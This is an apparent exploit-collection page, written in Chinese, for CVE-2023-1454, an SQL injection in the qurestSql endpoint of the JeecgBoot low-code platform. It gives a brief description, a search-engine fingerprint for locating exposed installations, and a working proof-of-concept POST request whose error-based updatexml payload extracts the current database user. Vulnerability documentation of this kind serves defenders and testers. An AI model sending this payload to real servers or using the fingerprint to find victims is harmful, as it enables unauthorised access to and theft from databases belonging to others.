

# JeecgBoot 企业级低代码平台 qurestSql SQL注入漏洞 CVE-2023-1454

## 漏洞描述

JeecgBoot 企业级低代码平台 qurestSql接口存在 SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库中的敏感数据，进一步攻击

## 漏洞影响

<a-checkbox checked>JeecgBoot 企业级低代码平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="JeecgBoot-企业级低代码平台"</a-checkbox></br>

## 漏洞复现

登陆页面



验证POC

```php
POST /jeecg-boot/jmreport/qurestSql HTTP/1.1
Content-Type: application/json

{"apiSelectId":"1290104038414721025",
"id":"1' or '%1%' like (updatexml(0x3a,concat(1,(select current_user)),1)) or '%%' like '"}
```

